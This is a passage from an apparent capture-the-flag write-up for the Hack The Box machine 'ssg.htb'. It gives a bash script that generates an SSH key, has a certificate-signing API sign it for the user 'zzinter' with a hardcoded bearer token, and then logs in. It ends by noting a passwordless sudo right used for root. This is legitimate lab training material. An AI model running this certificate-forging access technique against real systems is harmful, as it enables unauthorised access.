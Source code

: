 This means we can specify principal matches to the username when creating and signing the SSH certificate. Because of that reason, we can use the same process before accessing.

To make the connection quick and convenient, I will write a script to automate the above process:

```bash
#!/bin/bash

ssh-keygen -t rsa -b 2048 -f key -N "" && chmod 600 key

# Extract the public key
PUB_KEY=$(cat key.pub)

# Make the API call to sign the key
curl -X 'POST' \
  'http://signserv.ssg.htb/v1/sign' \
  -H 'accept: text/plain' \
  -H 'Content-Type: application/json' \
  -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE" \
  -d "{
  \"pubkey\": \"$PUB_KEY\",
  \"principals\": \"zzinter_temp\",
  \"username\": \"zzinter\"
}" \
> key-cert.pub && \
chmod 600 key-cert.pub

# Log in with cert
ssh -o CertificateFile=key-cert.pub -i key zzinter@ssg.htb -p 2222
```



Run the script and we can access <mark style="color:red;">**`zzinter-ssg`**</mark>:

<figure><img src="../../../.gitbook/assets/zzinter-ssg.png" alt=""><figcaption></figcaption></figure>

## Root - SSG

A <mark style="color:orange;">**`zzinter`**</mark> user has a <mark style="color:red;">**`sudo`**</mark> privilege on ssg to run <mark style="color:red;">**`/opt/sign_key.sh`**</mark> with no password:

<figure><img src="../../../.gitbook/assets/zzinter-ssg-2.png" alt=""><figcaption></figcaption></figure>
